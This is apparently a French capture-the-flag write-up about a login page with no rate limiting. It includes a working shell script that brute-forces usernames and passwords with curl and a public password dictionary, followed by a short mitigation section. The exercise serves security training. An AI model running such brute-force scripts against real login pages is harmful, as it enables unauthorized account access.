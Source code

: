 # Explications
Dans la page "signin", il y un formulaire de connexion :

```html
<form action="#" method="GET"> 
	<input type="hidden" name="page" value="signin">
	Username:<input type="text" name ="username" style="width:100%;">
	Password:<input type="password" name ="password" style="width:100%;" AUTOCOMPLETE="off">
	<input type="submit" value="Login" name ="Login">
</form>
```
On observe après plusieurs essais de connexion que le site ne nous **bloque** pas et ne nous empeche pas de ressayer de se connecter.

Donc on essaye de se connecter en **Brute Force** avec un script shell :
```bash
#!/bin/sh
curl -s "http://$1/?page=signin&username=a&password=a&Login=Login#" > page
while IFS='' read -r user; do
	echo "try user : $user"
	url1="http://$1/?page=signin&username="
	url2="&password="
	url3="&Login=Login#"
	while IFS='' read -r line; do
			echo "\ttry password: $line"
			curl -s "$url1$user$url2$line$url3" > tested
			DIFF=$(diff page tested)
			if [ "$DIFF" != "" ]
			then
					cat tested | grep "flag"
					echo "user is : $user\npassword is $line" >> result.txt
					rm tested
					break
			fi
			rm tested
	done < "dict.txt"
done < "users.txt"
```
Avec ce **Brute Force**, on utilise un [dictionnaire](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) de mot de passe, et une liste d'**users**.

# Comment l'éviter ?
Il faut bloquer les **Brute Force**, en limitant le nombre d'essais de connexion sur une page.

# Bonus
On se rend compte apres plusieurs essais d'users avec le **Brute Force** que l'user n'est même pas necessaire pour obtenir le flag sur cette page.